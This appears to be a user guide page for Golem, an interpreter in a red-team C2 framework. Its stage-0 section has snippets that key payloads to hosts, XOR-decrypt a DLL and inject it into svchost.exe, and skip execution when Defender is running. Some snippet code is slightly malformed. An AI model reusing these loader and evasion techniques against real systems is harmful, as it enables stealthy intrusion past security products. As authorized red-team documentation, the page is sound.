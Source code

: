```yaml
---
title: Golem
tags:
 - User Guide
description: Golem User Guide
permalink: user-guide/golem
---
```

## What is Golem

Golem is the standalone interpreter for Eldritch.
This program exists to help users get experience with the Eldritch language as well as a jumping off point if you're interested in implementing your own program using the Eldritch language.

Golem can also be used operationally as an alternative to a system native shell.
You can leverage the power of Eldritch with minimal exposure in the system process tree.

## Try it out

```bash
git clone git@github.com:spellshift/realm.git
cd realm/implants/golem
cargo run -- -i
# - or -
cargo build --release && \
    ../target/debug/golem ../../tests/golem_cli_test/tomes/hello_world.tome
```

## Golem embedded files

The Eldritch interpreter can embed files at compile time. To interact with these assets use the `assets` module in eldritch. In addition to programmatic access the embedded files can be automatically executed at run time. If no other option is specified `-i` or a file path, golem will iterate over every instance of `main.eldritch` in the embedded assets launching each one as a separate thread. This behavior is desirable when trying to perform recon or deploy persistence quickly.

## Golem as a stage 0

Golem can also be used as a stage 0 to load imix or other c2 agents.
This can help in a few ways such as:

- Keying payloads to specific hosts

```python
def main():
    if is_linux():
        if is_dir("/home/hulto/"):
            run_payload()
main()
```

- Executing encrypted payloads from memory

```python
def decrypt(payload_bytes):
    let res = []
    for byte in in payload_bytes:
        res.push(byte ^ 6)
    return res

def main():
    if is_windows():
        for proc in process.list():
            if "svchost.exe" in proc['name']:
                let enc_bytes = assets.read_bytes("imix.dll")
                sys.dll_reflect(decrypt(enc_bytes), proc['pid'], 'imix_main')
                return

main()
```

- Detecting security products before execution

```python
def main():
    for proc in process.list():
        if "MsMpEng.exe" in proc['name']:
            return
    run_payload()
main()
```
